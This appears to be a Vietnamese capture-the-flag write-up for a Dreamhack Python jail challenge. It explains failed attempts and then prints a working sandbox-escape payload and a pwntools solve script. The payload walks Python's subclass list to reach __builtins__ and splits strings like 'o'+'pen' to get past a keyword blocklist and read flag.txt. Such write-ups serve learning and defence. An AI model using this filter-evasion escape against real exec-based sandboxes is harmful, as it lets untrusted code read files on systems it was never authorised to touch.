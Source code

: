 # Write-up: Dreamhack - Python Start

#### 1. Phân Tích Ban Đầu (Initial Analysis)

Challenge cung cấp 3 file: `chall.py`, `Dockerfile`, và `flag.txt`.
*   **`chall.py`**: Một script Python nhận input từ người dùng, lọc qua một danh sách từ cấm, và nếu không có từ cấm, nó sẽ thực thi input bằng `exec()`. Quan trọng nhất, toàn bộ khối `exec()` được bọc trong `try...except: pass`, nghĩa là mọi lỗi thực thi (runtime error) sẽ bị bỏ qua một cách lặng lẽ.
*   **`Dockerfile`**: Cho biết môi trường chạy là `python:3.12-alpine`, một phiên bản Linux cực kỳ tối giản. Điều này rất quan trọng vì các module được nạp sẵn sẽ khác biệt so với môi trường phát triển thông thường (như Windows hoặc Ubuntu). Dockerfile cũng tiết lộ server được chạy bằng `socat`, và tham số `stderr` được sử dụng, nghĩa là luồng lỗi chuẩn (stderr) sẽ được chuyển ra socket mạng.
*   **Danh sách từ cấm**: `['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write', 'sh', 'break', 'mro', 'cat', 'flag']`. Đây là những từ cấm kinh điển, chặn các phương thức đọc file và thực thi lệnh trực tiếp.

**Mục tiêu**: Viết một đoạn code Python để đọc nội dung file `flag.txt` và in ra màn hình mà không vi phạm bộ lọc.

#### 2. Con Đường Thất Bại & Những Bài Học

Hành trình giải bài này là một chuỗi các thử nghiệm và sai lầm, mỗi sai lầm tiết lộ thêm một manh mối quan trọng.

*   **Thất bại #1: Giả định sai về môi trường**: Ban đầu, chúng ta giả định các lớp như `subprocess.Popen` có sẵn. Tuy nhiên, trên môi trường tối giản, nó không được nạp, dẫn đến lỗi `ValueError: 'Popen' is not in list`.
*   **Thất bại #2: Bỏ qua bộ lọc**: Khi cố gắng dùng `os.popen` thông qua một lớp như `_Printer`, payload bị chặn vì chứa chuỗi con `'os'` và `'open'`. Điều này dạy chúng ta rằng bộ lọc rất đơn giản, chỉ kiểm tra sự tồn tại của chuỗi con.
*   **Thất bại #3: Sai Index**: Sau khi né bộ lọc, payload vẫn không hoạt động. Lý do là index của lớp `_Printer` (và các lớp khác) trên máy local (Windows) hoàn toàn khác so với trên server (Alpine Linux).
*   **Thất bại #4: Lỗi `KeyError` bị che giấu**: Đây là cái bẫy tinh vi nhất. Sau khi tìm được index chính xác của `_Printer` và `DirEntry` trên server, payload vẫn thất bại. Lý do là trên môi trường Alpine tối giản này, `__init__.__globals__` của các lớp đó **không chứa module `os`**. Lệnh `...['o'+'s']...` gây ra lỗi `KeyError`, nhưng nó đã bị `try...except: pass` "nuốt chửng", khiến chúng ta nghĩ rằng không có gì xảy ra.

#### 3. Con Đường Dẫn Đến Thành Công

Sau khi loại bỏ các giả định sai, chiến lược đúng đắn nhất là:
1.  **Không tin vào môi trường local**: Phải lấy thông tin trực tiếp từ server.
2.  **Lợi dụng `stderr`**: Vì `socat` chuyển hướng `stderr`, chúng ta phải in mọi thứ (cả thông tin gỡ lỗi và flag) ra `sys.stderr` để tránh lỗi I/O buffering.
3.  **Đi đường vòng, nhưng phải chắc chắn**: Thay vì cố gắng tìm `os`, một module có thể không được nạp, chúng ta sẽ tìm lại hàm `open()` gốc của Python. Hàm này nằm trong `__builtins__`, một dictionary gần như luôn có thể truy cập được.

**Kế hoạch tấn công cuối cùng:**
1.  **Giai đoạn 1: Trinh sát (Reconnaissance)** - Gửi một payload để leak toàn bộ danh sách tên các lớp có sẵn trên server.
    ```python
    discovery_payload = "print([c.__name__ for c in ().__class__.__base__.__subclasses__()], file=sys.stderr)"
    ```
    Kết quả thu được là một danh sách dài, trong đó chúng ta xác định được lớp `os.DirEntry` tồn tại, và index của nó là **144**. `DirEntry` là một điểm khởi đầu tốt vì nó là một lớp ổn định.

2.  **Giai đoạn 2: Tấn công (Exploitation)** - Sử dụng index đã biết để xây dựng payload cuối cùng, mục tiêu là lấy lại hàm `open()` từ `__builtins__`.

#### 4. Phân Tích Payload Chiến Thắng

Payload cuối cùng hoạt động hoàn hảo:
```python
print(().__class__.__base__.__subclasses__()[144].__init__.__globals__['__builtins__']['o'+'pen']('f'+'lag.txt').__getattribute__('r'+'ead')(), file=sys.stderr)
```

Hãy chia nhỏ nó ra:
*   `().__class__.__base__.__subclasses__()`: Điểm vào sandbox escape kinh điển, lấy danh sách tất cả các lớp con của `object`.
*   `[144]`: Chọn lớp `os.DirEntry` với index chính xác đã tìm được trên server.
*   `.__init__.__globals__`: Truy cập vào dictionary chứa các biến toàn cục nơi hàm `__init__` của `DirEntry` được định nghĩa.
*   `['__builtins__']`: Từ globals, truy cập dictionary `__builtins__`, nơi chứa tất cả các hàm và kiểu dữ liệu gốc của Python.
*   `['o'+'pen']`: Lấy hàm `open` từ `__builtins__`. Chuỗi `'open'` được ghép từ `'o'+'pen'` để né bộ lọc.
*   `('f'+'lag.txt')`: Gọi hàm `open` vừa lấy được để mở file `flag.txt`. Tên file được ghép từ `'f'+'lag.txt'` để né bộ lọc.
*   `.__getattribute__('r'+'ead')()`: Từ đối tượng file trả về, chúng ta không thể gọi `.read()` trực tiếp. Thay vào đó, dùng `__getattribute__` để lấy phương thức `read` (ghép từ `'r'+'ead'`) rồi gọi nó.
*   `print(..., file=sys.stderr)`: In kết quả (nội dung flag) ra luồng lỗi chuẩn để đảm bảo dữ liệu được gửi đi ngay lập tức và không bị kẹt trong bộ đệm.

#### 5. Script Tấn Công Cuối Cùng (`solve.py`)

```python
from pwn import *

host = "host8.dreamhack.games"
port = 18211

p = remote(host, port)

p.recvuntil(b"Input code > ")

# Payload tấn công, sử dụng DirEntry (index 144) làm điểm khởi đầu
attack_payload = f"print(().__class__.__base__.__subclasses__()[144].__init__.__globals__['__builtins__']['o'+'pen']('f'+'lag.txt').__getattribute__('r'+'ead')(), file=sys.stderr)"

p.sendline(attack_payload.encode())

print("[*] Waiting for the flag...")
# Nhận và in flag
flag = p.recvall().decode()
print("\n[+] FLAG FOUND: " + flag.strip())

p.close()
```

Bài challenge này là một ví dụ tuyệt vời về việc gỡ lỗi trong môi trường "hộp đen", nhấn mạnh tầm quan trọng của việc không đưa ra giả định và phải dựa vào thông tin lấy được trực tiếp từ mục tiêu.